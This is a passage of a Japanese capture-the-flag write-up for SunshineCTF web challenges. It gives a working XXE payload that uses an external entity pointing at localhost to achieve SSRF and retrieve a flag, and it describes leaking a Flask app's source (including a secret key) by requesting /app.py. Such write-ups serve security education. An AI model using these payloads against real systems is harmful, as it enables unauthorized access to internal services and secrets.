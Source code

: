 ```php
  <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js"></script>
  <script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js"></script>
</head>
<body>

<div class="jumbotron text-center">
  <h1>Your Wrestler Name Is:</h1>
  <h2>$generatedName</h2> 
<!--hacker name functionality coming soon!-->
<!--if you're trying to test the hacker name functionality, make sure you're accessing this page from the web server-->
<!--<h2>Your Hacker Name Is: REDACTED</h2>-->
  <a href="/">Go Back</a> 
</div>
</body>
</html>
EOT;
?>
```

`127.0.0.1` もしくは `::1` からのアクセスであればフラグが表示されるようです。XXE を利用して SSRF を行います。

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE input [<!ENTITY h SYSTEM "http://localhost/generate.php">]><input><firstName>&h;</firstName><lastName>neko</lastName></input>
```

を投げるとフラグが得られました。

```
sun{1_l0v3_hulk_7h3_3x73rn4l_3n717y_h064n}
```

### Portfolio (150)
> Check out my development portfolio! I'm just getting started, so don't be too mean :(
> http://folio.sunshinectf.org

与えられた URL にアクセスすると、以下のようなリンクのリストが表示されました。

```html
︙
    <h2> Projects </h2>
    <ul> 
      <li><a href="/hello/name">Custom greeting</a></li>
      <li><a href="/render.html">Dynamic page rendering</a></li>
    </ul>
︙
```

HTTP レスポンスヘッダには `Server: Werkzeug/0.15.1 Python/3.7.2` とあり、Flask 製であることが推測できます。

`/app.py` にアクセスするとフラグが得られました。

```python
from flask import Flask, session, redirect, url_for, request, render_template, render_template_string
import requests
from datetime import datetime

app = Flask(__name__, static_url_path='',static_folder='')
app.secret_key = '20f75e46-4d3a-452d-ae10-96d1b45d2428'
app.config["FLAG"] = "sun{5l33333p_15_f0r_7h3_w34k}"
app.config["DEBUG"] = False

@app.route('/hello')
@app.route('/hello/<user>')
def hello_world(user=None):
    user = user or ''
```